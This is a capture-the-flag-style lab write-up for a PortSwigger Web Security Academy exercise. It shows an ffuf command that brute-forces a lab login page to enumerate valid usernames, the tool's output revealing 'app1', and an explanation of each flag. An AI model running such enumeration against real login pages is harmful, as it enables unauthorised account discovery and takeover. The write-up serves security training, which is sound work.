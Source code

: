 
# Authentication Vulnerability Practical

##### Lab #1: Username enumeration via different response

Lab URL: https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses

```
$ ffuf -w ../user.txt:FUZZ -u https://0a75008d033bc680c07a3663004c0069.web-security-academy.net/login -X POST -d "username=FUZZ&password=anything" -H "Content-Type: application/x-www-form-urlencoded" -fs 2884

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : https://0a75008d033bc680c07a3663004c0069.web-security-academy.net/login
 :: Wordlist         : FUZZ: ../user.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=anything
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 2884
________________________________________________

app1                    [Status: 200, Size: 2886, Words: 1097, Lines: 62, Duration: 194ms]
:: Progress: [101/101] :: Job [1/1] :: 18 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

In the above command, I use ffuf with the following parameters
- -w: To specify the wordlist of usernames
- -u: To specify the target URL
- -X: To specify the request method in that case its POST
- -d: To specify the request data i.e username and password
- -H: To specify the Header
- -fs: To filter the result with the request size

The above command is using a tool called "ffuf" to perform a brute force attack on a login page at [https://0a75008d033bc680c07a3663004c0069.web-security-academy.net/login](https://0a75008d033bc680c07a3663004c0069.web-security-academy.net/login). The attack is focused on enumerating valid usernames for the login page, using a list of usernames provided in a file named "user.txt". The "`-w`" flag is used to specify the wordlist file, while the "`FUZZ`" keyword is used to indicate where the values from the wordlist should be substituted in the request.
